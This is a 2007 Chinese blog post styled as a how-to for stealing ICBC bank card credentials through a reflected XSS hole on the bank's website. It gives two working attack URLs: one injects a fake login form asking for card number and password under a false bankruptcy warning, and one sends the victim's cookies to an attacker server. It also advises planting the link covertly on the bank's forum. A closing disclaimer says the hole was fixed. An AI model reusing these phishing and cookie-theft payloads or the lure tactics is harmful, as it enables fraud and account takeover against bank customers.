 ---
created: 2007-01-08 15:10:12
creator: eishn
description: '严正申明: 经过寻找, 我终于找到了这个漏洞最初的发现者谢先明先生, 这是一位非常善良的技术人员, 请大家支持他的博客。预知整件事情的来龙去脉请访问
  http://blog.csdn.net/hcat1999/archive/2006/12/31/1470770.aspx 。本文纯属借题发挥。'
title: 沈崴手把手教你如何获取别人工行银行卡
---
<a href="http://eishn.plonespace.net/images/icbc.jpg"><img src="http://eishn.plonespace.net/images/icbc.jpg/image_preview" /></a><br /><br /><br />伪造页面 (同事老庄友情提供)<br /><div>http://www.icbc.com.cn/news/hotspot.jsp?column=%B1%BE%D0%D0%BC%B4%BD%AB%C6%C6%B2%FA%A3%AC%C7%EB%C1%A2%BF%CC%B5%C7%C2%BD%D7%AA%D2%C6%C4%FA%B5%C4%B2%C6%B2%FA%3Cbr%3E%B9%A4%C9%CC%D2%F8%D0%D0%BF%A8%BA%C5%A3%BA%3Cinput%20name=a%20/%3E%3Cbr%3E%C4%FA%B5%C4%C3%DC%C2%EB:%3Cinput%20name=e/%3E%3Cbr%3E%3Cinput%20type=button%20value=%B5%C7%C2%BD%3E</div><br />直接发送跳板帐号 (不要有任何侥幸心理了)<br /><div>http://www.icbc.com.cn/news/hotspot.jsp?column=%3Cscript%3Ewindow.location='http://127.0.0.1/crack/'%2BencodeURIComponent(document.cookie)%3C/script%3E</div><br />下一步<br /><br />接下来呢?  我们就该到工行的 <a href="http://https//service.icbc.com.cn/bbs/index.jsp" target="_blank">网上论坛</a> 向管理员和各位用户发表一下我的见解了。当然, 得更隐蔽些。<br /><br />    "管理员啊, 网站上的这个说明是什么意思啊 http://www.icbc.com.cn/icbcmodule/thirdindex.jsp?column=%XXX..."<br /><br />还记得上一篇<a href="blog/static/6523182006112724052272/" target="_blank">《沈崴手把手教你获得别人网易博客权限》</a>的文章吗? 有很多共通之处, 可供参考。<br /><br />我的申明<br /><br />事实上, 我并不是所谓的骇客, 我只是每当看到没有技术含量的东西绝不放弃冷嘲热讽的机会, 比如 "J2EE"。多少关键业务在使用这些低效的技术? 多少学生被这些买办误导和愚弄? 我就是要拆穿这些过时技术的谎言, 只要你一天没有结束和内存泄露、永无休止的 XML 配置以及设计模式软件工程的搏斗, 依然跟着国内所谓的 Win32 专家亦步亦趋, 你永远没有时间来提高你的软件的安全性。<br /><br />在 Plone 下, 你有机会写出不安全的程序吗? 你不妨试试。<br /><br />最后我想告诉所有有志于此道的小屁孩一个坏消息, 某人已经将问题向工行网站反映, 工行迅速作出了修复, 请勿以身试法。<br />